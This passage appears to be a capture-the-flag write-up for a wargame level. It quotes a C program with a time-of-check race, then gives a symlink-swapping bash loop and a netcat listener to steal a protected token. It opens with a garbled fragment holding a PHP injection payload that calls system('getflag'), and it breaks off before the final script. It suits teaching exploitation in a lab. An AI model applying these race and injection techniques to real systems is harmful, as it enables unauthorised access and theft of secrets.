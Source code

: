 ```[email {${system('getflag')}}]``` - which I will write in ```/tmp/payload``
  fd = socket(AF_INET, SOCK_STREAM, 0);

  memset(&sin, 0, sizeof(struct sockaddr_in));
  sin.sin_family = AF_INET;
  sin.sin_addr.s_addr = inet_addr(host);
  sin.sin_port = htons(18211);

  if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
    printf("Unable to connect to host %s\n", host);
    exit(EXIT_FAILURE);
  }

#define HITHERE ".oO Oo.\n"
  if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
    printf("Unable to write banner to host %s\n", host);
    exit(EXIT_FAILURE);
  }
#undef HITHERE

  printf("Connected!\nSending file .. "); fflush(stdout);

  ffd = open(file, O_RDONLY);
  if(ffd == -1) {
    printf("Damn. Unable to open file\n");
    exit(EXIT_FAILURE);
  }

  rc = read(ffd, buffer, sizeof(buffer));
  if(rc == -1) {
    printf("Unable to read from file: %s\n", strerror(errno));
    exit(EXIT_FAILURE);
  }

  write(fd, buffer, rc);

  printf("wrote file!\n");

 } else {
    printf("You don't have access to %s\n", file);
 }
}
```

From the start we know that we are dealing with a race condition, due to the presence of ```access()```.
If we are to run multiple instances of the binary concurrently, while changing the file parameter given from a symbolic link to an accessible file, to a symbolic link to ```token```, chances are we are going to get to be allowed to access the contents of ```token```.
For starters, I am going to write a script that I will background, script which will switch the symbolic links:
```
#!/bin/bash

while true; do
  ln -sf /home/flag10/token /tmp/token;
  ln -sf /tmp/allowed /tmp/token;
done
```
Where ```/tmp/allowed``` is an empty file we are allowed to read.
Alright, now from my host machine I will start a concurrent netcat listener:
```nc -klnvp 18211```

And now, I will try to infinitely run the binary, hoping the race condition will trigger, using this script, which I will run in the foregound:
```